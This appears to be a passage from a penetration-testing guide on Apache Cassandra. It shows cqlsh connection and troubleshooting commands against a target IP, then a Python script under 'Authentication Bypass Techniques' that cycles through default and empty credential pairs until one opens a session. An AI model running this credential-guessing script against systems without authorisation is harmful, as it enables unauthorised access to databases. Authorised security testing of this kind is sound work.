 #### Connection with SSL/TLS

```bash
# SSL connection with certificate validation disabled
cqlsh <target_ip> 9042 --ssl

# SSL with custom certificate authority
cqlsh <target_ip> 9042 --ssl --cqlshrc ~/.cassandra/cqlshrc

# SSL with client certificates
cqlsh <target_ip> 9042 --ssl --cert-file client.crt --key-file client.key
```

#### Troubleshooting Connection Issues

```bash
# Verbose connection debugging
cqlsh <target_ip> 9042 --debug

# Specify CQL version for compatibility
cqlsh <target_ip> 9042 --cqlversion="3.4.5"

# Timeout adjustments for slow networks
cqlsh <target_ip> 9042 --connect-timeout=30 --request-timeout=60
```

### Authentication Bypass Techniques

When authentication is enabled but misconfigured:

#### Default Credential Testing

```python
#!/usr/bin/env python3
import cassandra
from cassandra.cluster import Cluster
from cassandra.auth import PlainTextAuthProvider

# Common credential combinations
credentials = [
    ('cassandra', 'cassandra'),
    ('admin', 'admin'),
    ('root', 'root'),
    ('user', 'user'),
    ('guest', 'guest'),
    ('test', 'test'),
    ('demo', 'demo'),
    ('', ''),  # Empty credentials
]

def test_authentication(host, port=9042):
    for username, password in credentials:
        try:
            if username and password:
                auth_provider = PlainTextAuthProvider(username=username, password=password)
                cluster = Cluster([host], port=port, auth_provider=auth_provider)
            else:
                cluster = Cluster([host], port=port)
            
            session = cluster.connect()
            print(f"[+] Success: {username}:{password}")
            return session
        except Exception as e:
            print(f"[-] Failed: {username}:{password} - {str(e)}")
    
    return None
```